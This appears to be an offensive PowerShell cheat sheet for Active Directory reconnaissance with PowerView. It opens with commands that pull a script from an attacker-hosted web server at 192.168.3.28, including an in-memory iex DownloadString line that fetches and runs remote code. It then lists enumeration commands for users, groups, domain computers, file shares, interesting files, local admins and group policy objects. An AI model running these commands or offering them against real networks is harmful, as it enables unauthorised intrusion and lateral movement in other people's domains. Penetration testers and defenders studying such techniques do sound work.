 # offensive powershell

Attacker's machine is 192.168.3.28, and a file called powerview.ps1 is being hosted on a web server

## download files from powershell

---

Download to file:

```powershell
certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1
```

```powershell
wget http://192.168.3.28/powerview.ps1 -outfile powerview.ps1
```

Download to memory:

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')
```

## enumerating users & groups

---

### users

View all users:

```powershell
Get-NetUser
```

View canonical names of users

```powershell
Get-NetUser | Select cn
```

View SAM account names of users

```powershell
Get-NetUser | Select -ExpandProperty SamAccountName
```

Check descriptions of users

```powershell
Find-UserField -SearchField Description
```

```powershell
Find-UserField -SearchField Description "admin"
```

### groups

View all groups. On the bottom of the output are user-created groups.

```powershell
Get-NetGroup
```

Get group of user

```powershell
Get-NetGroup -UserName "s.chisholm"
```

Get group, verbose

```powershell
Get-NetGroup -GroupName "IT Admins" -FullData
```

## enumerating domain computers and shares

---

List all domain-connected computers

```powershell
Get-NetComputer
```

List all domain-connected computers, verbose

```powershell
Get-NetComputer -FullData
```

List all computers based on OS. Keep in mind the asterisks (*) 

```powershell
Get-NetComputer -OperatingSystem "*Windows 10*"
```

View file shares

```powershell
Invoke-ShareFinder
```

View file shares except for default ones

```powershell
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
```

View file shares, verbose

```powershell
Invoke-ShareFinder -Verbose
```

View interesting files

```powershell
Invoke-FileFinder
```

## enumerating local admins

---

List local admins

```powershell
Invoke-EnumerateLocalAdmin
```

## enumerating group policy objects

---

List GPOs

```powershell
Get-NetGPO
```





































